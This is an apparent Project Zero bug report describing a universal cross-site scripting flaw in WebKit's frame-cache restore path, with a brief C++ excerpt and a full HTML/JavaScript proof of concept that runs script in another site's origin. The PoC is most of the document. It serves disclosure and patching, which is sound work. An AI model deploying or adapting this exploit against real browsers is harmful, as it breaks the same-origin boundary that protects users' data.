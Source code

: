 # UXSS via CachedFrameBase::restore

> Reported by lokihardt@google.com, Mar 17 2017

This is similar to the case https://bugs.chromium.org/p/project-zero/issues/detail?id=1151.
But this time, javascript handlers may be fired in `FrameLoader::open`.

```cpp
void FrameLoader::open(CachedFrameBase& cachedFrame)
{
	...
    clear(document, true, true, cachedFrame.isMainFrame()); <<--------- prepareForDestruction which fires unloads events is called.
    ...
}
```

PoC:

```html
<html>

<body>
  Click anywhere...
  <script>
    function createURL(data, type = 'text/html') {
      return URL.createObjectURL(new Blob([data], {
        type: type
      }));
    }

    function navigate(w, url) {
      let a = w.document.createElement('a');
      a.href = url;
      a.click();
    }

    window.onclick = () => {
      window.w = open('about:blank', 'w', 'width=500, height=500');

      let i0 = w.document.body.appendChild(document.createElement('iframe'));
      let i1 = w.document.body.appendChild(document.createElement('iframe'));
      i0.contentWindow.onbeforeunload = () => {
        i0.contentWindow.onbeforeunload = null;

        navigate(w, 'about:blank');
      };

      navigate(i0.contentWindow, createURL(`
<body>
<script>
</scrip` + 't></body>'));

      setTimeout(() => {
        let g = i0.contentDocument.body.appendChild(document.createElement('iframe'));
        let x = new g.contentWindow.XMLHttpRequest();
        x.onabort = () => {
          parseFloat('axfasdfasfdsfasfsfasdf');
          i0.contentDocument.write();

          navigate(w, 'https://abc.xyz/');

          showModalDialog(createURL(`
<script>
let it = setInterval(() => {
	try {
	    opener.w.document.x;
	} catch (e) {
	    clearInterval(it);
	    window.close();
	}
}, 10);
</scrip` + 't>'));

          setTimeout(() => {
            i1.srcdoc = '<script>alert(parent.location);</scrip' + 't>';
            navigate(i1.contentWindow, 'about:srcdoc');
          }, 10);
        };

        x.open('GET', createURL('x'.repeat(0x1000000)));
        x.send();
        w.history.go(-2);
      }, 200);
    };
  </script>
</body>

</html>

```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1197
